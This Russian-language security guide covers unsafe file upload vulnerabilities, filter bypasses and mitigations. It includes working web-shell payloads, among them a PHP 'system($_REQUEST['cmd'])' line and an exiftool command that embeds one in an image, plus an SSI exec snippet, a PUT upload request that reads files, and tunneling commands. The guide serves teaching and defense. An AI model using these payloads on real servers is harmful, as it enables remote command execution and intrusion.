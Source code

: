 # **Unsafe File Upload.Небезопасная загрузка файлов.**

## **Описание уязвимости**
Unsafe File Upload(Небезопасная загрузка файлов) - это уязвимость веб-преложений позволяющая злоумышленнику загружать вредоносные файлы на веб-сервер.
Данная уязвимость позволяет злоумышленнику загружать файлы на веб-сервер и при отсутствие проверок и фильтрации загружаемой информации злоумышленник может
внедрить в файл небезопасный код.

В результате такой атаки золумышленник может:
+ Загрузить web-shell, получив удалённое выполнение команд на веб-сервере
+ Загрузить reverse-shell, получив удалённое обратное подключение на свою машину
+ Возможность перезаписи и удаления файлов
+ XSS
+ Размещение фишинговой страницы на веб-сервере
+ Расскрытие конфиденциальной информации
+ Отказ в обслуживание
+ `Если вашего случая тут нет, дополните своим кейсом этот шаблон`

## **Теория**
Узвимость небезопасной загрузки файлов возникает при наличие функционала загрузки файлов на севрер и отсутствие проверок загружаемого контента.
При наличии возможно загрузки файлов на веб-сервер, злоумышленник может добавить вредоносный код в файл и отправить его на веб-сервер, получив в ответ ссылку на файл, в зависимости от того, как сервер её обработает.
Подробнее с Unsafe File Upload можно ознакомиться здесь:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
```
Рассмотрим пример уязвимого кода на php, в котором не производится проверка роли пользователя от которого загружается файл:
```
      <?php
        $target_dir = "uploads/";
        $target_file = $target_dir.basename($_FILES["fileToUpload"]["name"]);
        $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
```
Для исправления данной уязвимости следует добавить код, проверяющий роль пользователя перед загрузкой файла:
```
        if (!current_user_can('upload_files'))  //проверка прав пользователя на загрузку файлов
        die(__('You do not have permission to upload files.')); 
```


### **Обход фильтрации загружаемого контента**
+ Загрузка файлов с именем, которое уже имеется на сервере.(можно получить сообщение об ошибке(может привести к перезаписи чувствительных файлов));
+ Загрузка фалов, когда папка с таким названием уже существует;
+ Загрузка файлов с длинным названием;
+ Загрузка одно файла несколько раз, в один промежуток времени;
+ Использование двойных расширений или малоизвестных расширений

Обходится с помощью использования двойных расширений (`shell.php.png`) или малоизвестный расширений (`.php5`, `.phtml`, `.shtml`, `.htaccess`). Кроме того, возможна инъекция нулевого байта (`shell.php%00.jpg`) или регистрозависимость при проверке (`.PHp3', '.aSp`).
+ Санитайзеры

Оставляет большую степень свободы. Например, если санитайзер удаляет вхождения подстрок типа `.php`, то использования имени файла вида `shell.p.phphp` позволяет после загрузки получить файл с именем `shell.php`. 
+ Валидация Content-Type;

```
POST / HTTP/1.1
Host: vuln.ru
Content-Length: 200
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="info.php"
Content-Type: text/php
 <?php phpinfo(); ?>
------WebKitFormBoundary--
```
строчка `Content-Type: text/php` может быть заменена на строчку `Content-Type: image/png`. 
+ `Server Side Includes`

Язык для динамической «сборки» веб-страниц на сервере из отдельных составных частей и выдачи клиенту полученного HTML-документа. Имеет расширения `.shtml`, `.stm` или `.shtm`. Например, при загрузке и вызове `file.shtml`, содержащего код 
```<!-- #exec cmd="ls" -->```
атакующему будет выведен список файлов данной директории. 
+ Загрузка файлов используя метод `PUT`

Если метод `PUT` настроен не корректно, можно использовать его для загрузки файлов на сервер:
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
+ Добавление в начало файла байты реального изображения

```
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```
или добавить полезную нагрузку в изображение:
```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```
### **Способы проброса шелла**
| Утилита  |     Способ         | Ссылка|
| ---------|:------------------:| -----:|
| ssh      | Более подробно по ссылке   | [SSH](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#ssh) |
| sshutlle | `sshuttle -vr username@ip 0/0 --ssh-cmd 'ssh'` |   [sshuttle](https://sshuttle.readthedocs.io/en/stable/usage.html) |
| reGeorg  | Можно загрузить файл на веб-сервер с тунелем и установить соединение через него(если нет возможности открыть порт на машине)|    [reGeorg](https://github.com/sensepost/reGeorg) |
| chisel   | Установка соединения через сервер и клиент. Ссылки на инструкцию и релиз на гитхабе(чтоб не устанавливать на машину) | [Интсрукция](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel) [Release](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)       |


[Дополнительная информация по тунелям и пробросу портов](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)

[Reverse Shell Generator](https://www.revshells.com/)

### **Рекомендации**
+ Проверка расширений загружаемых файлов
+ Проверка содержимого загружаемых файлов
+ Создания списка допустимых расширений, допустимых  к загрузке
+ Генерировать имя файла и расширение при записи на сервер
+ Запрет на выполнение файлов в дерикториях доступных пользователю
+ Сравнивать последовательность байтов файла(magic bytes) с ожидаемым расширением файла, например файлы `JPEG` всегда содержат в начале `FF D8 FF`
+  `Если вашего случая тут нет, дополните своим кейсом этот шаблон`

### **Проверка расширений загружаемых файлов и проверка содержимого загружаемых файлов**
Проверять название и рисширение загружаемого файла на наличие спец. символов, дополнительных расширний в файле и тд.
### **Создания списка допустимых расширений, допустимых  к загрузке**
Создание "BlackList" и "WhiteList" расширений для загрузки файлов
BlackList - список расширений недоступных для загрузки
WhiteList - список расширений, файлы с которыми допущены для загрузки
### **Генерировать имя файла и расширение при записи на сервер**
Лучше всего генерировать случайное имя, которое невозможно угадать, например использовать UUID в качестве имени файла.
### **Запрет на выполнение файлов в дерикториях доступных пользователю**
Загружать файлы на веб сервер за пределы веб-каталога, это гарантирует, что веб файлы не будут доступны напрямую, через веб-сервер.
### **Сравнивать последовательность байтов файла с ожидаемым расширением файла**
Производить сравнение получаемого расширения файла с его стандартными байтами, которы епринадлежать данному расширению.
```https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/```
### **Общая рекомендация**
Убедитесь, что пользователь не имеет контроля над именем файла и расширением. Лучше всего генерировать случайное имя, которое невозможно угадать, например, используя UUID в качестве имени файла. Это предотвращает перезапись существующих файлов, загрузку веб-оболочек, прямые ссылки на файлы и уязвимости обхода пути.
Рекомендуется хранить загруженные файлы за пределами корневого веб-каталога, в идеале на отдельном разделе или в общей папке. Это гарантирует, что загруженные файлы не могут быть напрямую доступны через веб-сервер, это предотвращает загрузку исполняемых скриптов (т.е. веб-шеллов), и злоумышленники не могут вызвать состояние отказа в обслуживании веб-сервера, заполнив его системный диск. Кроме того, загруженные файлы не должны иметь разрешения на выполнение (т.е. устанавливаться на уровне файловой системы или включать директивы веб-сервера).
Ограничения ресурсов должны быть настроены для всего раздела хранилища, а также максимальный размер файла и общий размер загрузки одним пользователем.
Если существуют ограничения по типам файлов, проверьте файловую сигнатуру, а не полагайтесь на расширение или MIME-тип. Все проверки должны выполняться на стороне сервера, так как меры на стороне клиента можно легко обойти. В зависимости от формата файла должны выполняться дополнительные проверки достоверности (например, формата файла).
